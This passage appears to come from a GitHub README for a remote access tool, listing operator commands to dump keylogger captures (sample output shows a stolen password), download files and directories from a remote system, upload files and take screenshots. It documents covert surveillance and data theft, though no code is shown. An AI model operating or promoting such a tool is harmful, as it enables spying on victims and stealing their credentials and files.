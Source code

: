     - **Dump Keylogger**:

      ```bash
      >>> K dump
      ```

      **Example**: Dumps the logged keystrokes to a file.

      ```bash
      >>> K dump
      [*] Dumping keystrokes:
      password123
      ```

7. **Download Directory or File**:

    - **Download Directory**:

      ```bash
      >>> D /home/user/documents
      ```

      **Example**: Downloads the `/documents` directory from the remote system.

      ```bash
      >>> D /home/user/documents
      [*] Downloading directory /documents...
      ```

    - **Download File**:

      ```bash
      >>> D /home/user/file.txt
      ```

      **Example**: Downloads the file `file.txt`.

      ```bash
      >>> D /home/user/file.txt
      [*] Downloading file /file.txt...
      ```

8. **Upload File**:

    ```bash
    >>> U /path/to/local/file.txt
    ```

    **Example**: Uploads a file from your local machine to the remote system.

    ```bash
    >>> U /path/to/local/file.txt
    [*] Uploading file.txt to remote host...
    ```

9. **Take Screenshot**:

    ```bash
    >>> S
    ```


[2]: https://www.instagram.com/EthicalFaizan
[3]: https://www.twitter.com/EthicalFaizan
[4]: https://www.linkedin.com/in/EthicalFaizan
[5]: https://www.github.com/faizan-khanx